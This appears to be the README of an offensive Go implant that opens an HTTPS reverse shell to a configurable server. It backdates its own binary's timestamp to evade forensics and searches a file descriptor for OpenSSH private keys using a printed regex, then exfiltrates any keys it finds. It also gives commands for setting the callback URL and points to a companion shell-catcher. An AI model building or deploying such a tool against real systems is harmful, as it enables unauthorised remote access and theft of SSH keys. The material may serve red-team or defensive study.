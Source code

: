 Change Own Timestamp
====================
Nearly the same as
[`map_and_regex_file_descriptor`](../map_and_regex_file_descriptor) but also
changes the timestamp of whatever `argv[0]` points to to a week earlier than
the time it executes.

A crude shell-catcher may be found in the
[`letsencryptshellcatcher`](../letsencryptshellcatcher) directory.
Run it with `-https /somepath`, and put the same `/somepath` in the server
URL.

Regex Exfil
-----------
The file pointed by file descriptor 8 will be mapped into memory and searched
for SSH keys with the following regex:
```
`-----BEGIN OPENSSH PRIVATE KEY-----` +
	`[ -~\r\n\t]{10,1000}?` +
	`[ -~\r\n\t]{10,1000}?` +
	`[ -~\r\n\t]{10,1000}?` +
	`[ -~\r\n\t]{10,1000}?` +
	`-----END OPENSSH PRIVATE KEY-----`,
```
Found keys are exfilled.  This happens in the background, leaving the shell
usable while the search happens.

URL File Descriptor
-------------------
The URL may be read file descriptor 7, and overrides the environment variable.

### Examples
Set the address via a heredoc:
```sh
./change_own_timestamp 7<<_eof
https://localhost:5555/somepath
_eof
```

Set just the address via bash's Here String:
```sh
./bin/change_own_timestamp 7<<<"https://localhost:5555/somepath"
```

Environment Variables
---------------------
The URL may be set with environment variables, overriding
compile-time settings, as follows

Default Variable        | Description
------------------------|------------
`ALPT4ATS_ADDRESS`      | HTTPS Server URL
`ALPT4ATS_REAL_ADDRESS` | Optional HTTPS Server IP:Port

The variable names may be changed at compile-time, as below.

Compile-time Config
-------------------
Compile time configuration is possible with the linker's `-X` (as in 
`go build -ldflags '-X main.Foo=bar'`).  The variables are as follows

Variable                                                  | Default                        | Description
----------------------------------------------------------|--------------------------------|------------
[`main.Address`](./change_own_timestamp.go#L31)           | `https://localhost:4444/shell` | HTTPS Server URL
[`main.AddressEnvVar`](./change_own_timestamp.go#L32)     | `ALPT4ATS_ADDRESS`             | Environment variable which sets the HTTPS Server URL
[`main.RealAddressEnvVar`](./change_own_timestamp.go#L33) | `ALPT4ATS_REAL_ADDRESS`        | Environment variable which sets the server's real IP address and port

When building with the [Makefile](../../Makefile) these may be passed in with
the `LINKFLAGS` environment variable, as in
```sh
LINKFLAGS="-X main.Address=https://example.com:8080/notshell" make
```
